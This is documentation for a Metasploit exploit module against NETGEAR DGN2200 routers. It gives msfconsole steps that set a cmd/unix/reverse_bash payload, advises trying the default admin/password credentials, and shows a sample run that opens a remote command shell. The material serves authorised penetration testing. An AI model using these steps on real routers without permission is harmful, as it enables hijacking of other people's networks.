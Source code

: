 ## Vulnerable Application

  NETGEAR DGN2200v1, DGN2200v2, DGN2200v3, DGN2200v4 routers

## Verification Steps

  1. start `msfconsole`
  2. `use exploit/linux/http/netger_dnslookup_cmd_exec`
  3. `set RHOST 192.168.1.1` `<--- Router IP`
  4. `set USERNAME xxxx` (see [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/netgear_dnslookup_cmd_exec.md#options))
  5. `set PASSWORD xxxx` (see [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/netgear_dnslookup_cmd_exec.md#options))
  5. `set PAYLOAD cmd/unix/reverse_bash`
  6. `set LHOST 192.168.1.x`
  7. `set LPORT xxxx`
  8. `run`
  9. Get a session

## Options

### USERNAME

  The `USERNAME` option sets the username to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default username for NETGEAR Routers is `admin`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
  
### PASSWORD
  
  The `PASSWORD`options sets the password to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default password for NETGEAR Routers is `password`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
## Advanced Options
  
  **HOSTNAME**
  
  The request is went with a `host_name` POST parameter. This option sets this parameter. 
  The default is `www.google.com`. The reason for the parameter is that the file that this
  vulnerability is located in (`dnslookup.cgi`) actually needs a domain to resolve, or else 
  the injection won't work.
  

## Scenarios

  What it should look like against a vulnerable router.

  ```
msf > use exploit/linux/http/netgear_dnslookup_cmd_exec 
msf exploit(netgear_dnslookup_cmd_exec) > options

Module options (exploit/linux/http/netgear_dnslookup_cmd_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to authenticate with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                      yes       The target address
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       Username to authenticate with
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   NETGEAR DDGN2200 Router


msf exploit(netgear_dnslookup_cmd_exec) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(netgear_dnslookup_cmd_exec) > set USERNAME admin
USERNAME => admin
msf exploit(netgear_dnslookup_cmd_exec) > set PASSWORD password
PASSWORD => password
msf exploit(netgear_dnslookup_cmd_exec) > run

[*] Started reverse TCP double handler on 192.168.1.9:4444 
[+] Router is a NETGEAR router (DGN2200v1)
[*] Sending payload...
[*] Command shell session 1 opened (192.168.1.9:4444 -> 192.168.1.9:53352) at 2017-03-02 19:36:47 -0500
```
  
